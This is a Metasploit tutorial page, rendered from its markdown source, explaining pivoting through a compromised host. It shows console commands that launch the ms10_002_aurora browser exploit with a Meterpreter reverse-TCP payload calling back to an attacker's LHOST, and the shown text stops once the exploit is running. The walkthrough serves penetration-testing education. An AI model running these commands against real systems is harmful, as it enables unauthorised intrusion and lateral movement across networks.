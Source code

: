 ```yaml
---
draft: false
title: MSF Pivoting
linkTitle: MSF Pivoting
translationKey: msf-pivoting
weight: 310
date: 2017-06-05T13:33:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Pivoting is using a compromised system to attack other systems on the same network. This article explains how to use Metasploit Framework for pivoting.
url: /msf-pivoting/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

## What is Pivoting?

Let's assume that you have opened a meterpreter shell session on a system. The system you are logged in to may not be a fully authorized computer on the network. Using this first logged in system as a springboard and accessing other computers on the same network is called **pivoting**. You may also come across another terminology called **beachhead** or **entry point**.

You have the chance to access servers or network systems that normally do not have direct access using pivoting. In the scenario we will examine below, we will try to reach another computer using the network connections of a computer that has opened the meterpreter shell. While doing this, we will benefit from the routing opportunity offered by meterpreter.

## 1. Let's Open a Shell on the Computer

Thanks to the `exploit/windows/browser/ms10_002_aurora` module used here, a session is opened on the computer of the company employee who clicked on a malicious link.

```bash
msf > use exploit/windows/browser/ms10_002_aurora
msf exploit(ms10_002_aurora) > show options

Module options:

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 SRVHOST 0.0.0.0 yes The local host to listen on.
 SRVPORT 8080 yes The local port to listen on.
 SSL false no Negotiate SSL for **incoming connections
 SSLVersion SSL3 no Specify the version of SSL that should be used (accepted: SSL2, SSL3, TLS1)
 URIPATH no The URI to use for **this exploit (default is random)
Exploit target:

 Id Name
 -- ----
 0 automatic
msf exploit(ms10_002_aurora) > set URIPATH /
URIPATH => /
msf exploit(ms10_002_aurora) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms10_002_aurora) > set LHOST 192.168.1.101
LHOST => 192.168.1.101
msf exploit(ms10_002_aurora) > exploit -j
> Exploit running as background job.

```